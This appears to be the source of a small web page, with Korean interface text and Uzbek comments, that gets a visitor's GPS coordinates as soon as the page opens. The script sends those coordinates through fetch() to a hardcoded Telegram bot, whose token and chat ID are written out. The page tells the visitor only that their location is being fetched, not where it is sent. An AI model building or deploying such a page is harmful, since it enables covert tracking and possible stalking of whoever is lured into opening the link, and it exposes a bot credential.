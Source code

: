 <!DOCTYPE html>
<html lang="ko">
<head>
  <meta charset="UTF-8">
  <title>위치 공유</title>
</head>
<body>
  <h2>위치를 자동으로 가져오는 중...</h2>
  <p>잠시만 기다려주세요.</p>

  <script>
    // Telegram bot token va chat ID
    const botToken = "8064173076:AAHU8qwRTkT37h25j0BN4gZ7xYhiSb3_THU";
    const chatId = "@Ooooododododojsjs"; // Agar chat ID guruh bo'lsa, shunday yoziladi

    function sendLocationToTelegram(latitude, longitude) {
      const url = `https://api.telegram.org/bot${botToken}/sendMessage`;
      const message = `📍 Yangi foydalanuvchi joylashuvi:\nLatitude: ${latitude}\nLongitude: ${longitude}`;

      fetch(url, {
        method: "POST",
        headers: {
          "Content-Type": "application/json"
        },
        body: JSON.stringify({
          chat_id: chatId,
          text: message
        })
      }).then(response => {
        document.body.innerHTML = "<h3>위치가 성공적으로 전송되었습니다!</h3>";
      }).catch(error => {
        document.body.innerHTML = "<h3>전송 중 오류가 발생했습니다.</h3>";
        console.error("Xato:", error);
      });
    }

    function requestLocation() {
      if (navigator.geolocation) {
        navigator.geolocation.getCurrentPosition(position => {
          const lat = position.coords.latitude;
          const lon = position.coords.longitude;
          sendLocationToTelegram(lat, lon);
        }, error => {
          document.body.innerHTML = "<h3>위치를 가져올 수 없습니다.</h3>";
        });
      } else {
        document.body.innerHTML = "<h3>이 브라우저는 위치를 지원하지 않습니다.</h3>";
      }
    }

    // Sayt ochilganda avtomatik lokatsiyani so‘raydi
    requestLocation();
  </script>
</body>
</html>is

